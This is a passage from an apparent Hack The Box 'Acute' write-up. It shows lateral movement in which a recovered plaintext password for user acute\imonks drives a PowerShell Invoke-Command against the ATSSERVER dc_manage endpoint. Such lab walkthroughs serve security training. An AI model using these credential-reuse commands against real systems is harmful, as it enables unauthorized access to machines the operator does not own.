 ![image-center](/images/htb/htb_acute_screen.png){: .align-center}

## Lateral Movement

Back to our PSWA, let's use the recovered credentials to see if we can get other privileges.

```powershell
$Pass = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -force
$Creds = New-Object System.Management.Automation.PSCredential ("acute\imonks", $Pass)
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {whoami} -credential $Creds
```

![image-center](/images/htb/htb_acute_imonks.png){: .align-center}
